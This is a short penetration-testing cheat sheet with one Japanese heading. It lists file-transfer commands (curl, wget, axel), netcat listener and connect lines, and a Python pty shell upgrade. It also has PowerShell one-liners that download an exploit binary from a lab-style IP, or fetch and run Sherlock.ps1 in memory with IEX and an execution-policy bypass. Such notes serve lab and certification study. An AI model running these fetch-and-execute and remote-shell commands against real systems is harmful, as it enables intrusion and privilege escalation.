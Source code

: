 
## File transfer
### curl
`curl -o <filename> <URL>`

### wget
`wget -O <filename> <URL>`


### axel
`axel -a -n 20 -o <filename> <URL>`

### Netcat
`nc -nlvp 4444`

`nc -nv 10.11.0.22 4444`

### 対話型シェルのアップグレード
python -c 'import pty;pty.spawn("/bin/bash")'


powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.76:9999/MS11-046.exe', 'c:\Users\Public\Downloads\40564.exe')"



powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.17.46/priv/windows/Sherlock.ps1') ; Find-AllVulns"

echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.17.46/Sherlock.ps1') | powershell -noprofile -

C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell

@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.17.46/Sherlock.ps1'));Find-AllVulns"
